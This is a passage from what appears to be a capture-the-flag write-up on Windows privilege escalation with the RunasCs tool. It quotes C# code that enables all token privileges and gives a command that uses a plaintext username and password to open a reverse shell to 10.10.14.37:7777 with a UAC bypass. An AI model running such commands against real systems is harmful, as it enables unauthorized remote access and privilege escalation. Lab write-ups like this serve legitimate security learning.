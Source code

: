 - `RunasCs` is a tool that allows you to use explicit credentials to run particular processes with permissions different from what our shell current provides.

- As you can see below, `RunasCs` enables a list of privileges for a specific security token:

```
public static string EnableAllPrivileges(IntPtr token)
    {
        string output = "";
        string[] privileges = { "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeBackupPrivilege", 
                                "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeCreatePagefilePrivilege", 
                                "SeCreatePermanentPrivilege", "SeCreateSymbolicLinkPrivilege", "SeCreateTokenPrivilege", 
                                "SeDebugPrivilege", "SeDelegateSessionUserImpersonatePrivilege", "SeEnableDelegationPrivilege", 
                                "SeImpersonatePrivilege", "SeIncreaseBasePriorityPrivilege", "SeIncreaseQuotaPrivilege", 
                                "SeIncreaseWorkingSetPrivilege", "SeLoadDriverPrivilege", "SeLockMemoryPrivilege", 
                                "SeMachineAccountPrivilege", "SeManageVolumePrivilege", "SeProfileSingleProcessPrivilege", 
                                "SeRelabelPrivilege", "SeRemoteShutdownPrivilege", "SeRestorePrivilege", "SeSecurityPrivilege", 
                                "SeShutdownPrivilege", "SeSyncAgentPrivilege", "SeSystemEnvironmentPrivilege", 
                                "SeSystemProfilePrivilege", "SeSystemtimePrivilege", "SeTakeOwnershipPrivilege", "SeTcbPrivilege", 
                                "SeTimeZonePrivilege", "SeTrustedCredManAccessPrivilege", "SeUndockPrivilege", "SeUnsolicitedInputPrivilege" };
        foreach (string privilege in privileges)
        {
            output += EnablePrivilege(privilege, token);
        }
        return output;
    }
```

- We can use it to spawn another shell:

```
.\RunasCs.exe alaading f8gQ8fynP44ek1m3 cmd.exe -r 10.10.14.37:7777 --bypass-uac
```

![img_10.png](img/img_10.png)

- And we're in:
